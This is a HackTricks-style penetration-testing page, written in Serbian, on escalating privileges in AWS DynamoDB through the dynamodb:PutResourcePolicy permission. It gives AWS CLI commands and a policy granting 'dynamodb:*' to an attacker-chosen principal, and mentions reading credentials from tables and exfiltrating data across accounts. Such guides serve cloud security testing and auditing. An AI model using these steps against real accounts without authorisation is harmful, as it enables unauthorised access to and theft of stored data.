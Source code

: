 # AWS - DynamoDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## dynamodb

Za više informacija o dynamodb proverite:

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, i opcionalno `dynamodb:GetResourcePolicy`

Od marta 2024. godine, AWS nudi *politike zasnovane na resursima* za DynamoDB ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

Dakle, ako imate `dynamodb:PutResourcePolicy` za tabelu, možete jednostavno dodeliti sebi ili bilo kojem drugom subjektu potpuni pristup tabeli.

Dodeljivanje `dynamodb:PutResourcePolicy` nasumičnom subjektu često se dešava slučajno, ako administratori misle da bi dodeljivanje `dynamodb:Put*` samo omogućilo subjektu da unese stavke u bazu podataka - ili ako su dodelili taj set dozvola pre marta 2024...

Idealno, takođe imate `dynamodb:GetResourcePolicy`, tako da ne prepisujete druge potencijalno vitalne dozvole, već samo injektujete dodatne dozvole koje su vam potrebne:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
Ako ne možete da preuzmete trenutnu politiku, jednostavno koristite ovu koja daje potpuni pristup tabeli vašem principalu:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
Ako treba da ga prilagodite, ovde je lista svih mogućih DynamoDB akcija: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). A ovde je lista svih akcija koje mogu biti dozvoljene putem politike zasnovane na resursima *I koje od ovih mogu biti korišćene između naloga (razmislite o eksfiltraciji podataka!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Sada, sa dokumentom politike `policy.json` spremnim, postavite politiku resursa:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
Sada biste trebali imati potrebne dozvole.

### Post Eksploatacija

Koliko ja znam, **ne postoji drugi direktan način za eskalaciju privilegija u AWS-u samo sa nekim AWS `dynamodb` dozvolama**. Možete **čitati osetljive** informacije iz tabela (koje mogu sadržati AWS akreditive) i **pisati informacije u tabelama** (što može pokrenuti druge ranjivosti, poput lambda kod injekcija...) ali sve ove opcije su već razmatrane na **DynamoDB Post Eksploatacija stranici**:

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### TODO: Čitajte podatke zloupotrebom data Streams

{{#include ../../../banners/hacktricks-training.md}}
